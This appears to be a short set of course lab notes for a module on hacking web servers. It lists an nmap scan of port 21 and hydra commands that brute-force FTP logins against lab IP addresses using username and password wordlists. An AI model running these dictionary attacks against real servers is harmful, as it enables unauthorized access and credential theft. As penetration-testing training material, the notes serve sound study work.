 # 13 - Hacking Web Servers

## Module 13 - Hacking Web Servers

FTP Bruteforce with Hydra

* `hydra -L /root/Desktop/Wordlists/Usernames.txt -P /root/Desktop/Wordlists/Passwords.txt ftp://10.10.10.11`

### **Lab2-Task1: Crack FTP Credentials using a Dictionary Attack**

* nmap -p 21 **\<Target IP>**
* **hydra -L usernames.txt -P passwords.txt ftp://10.10.10.10**
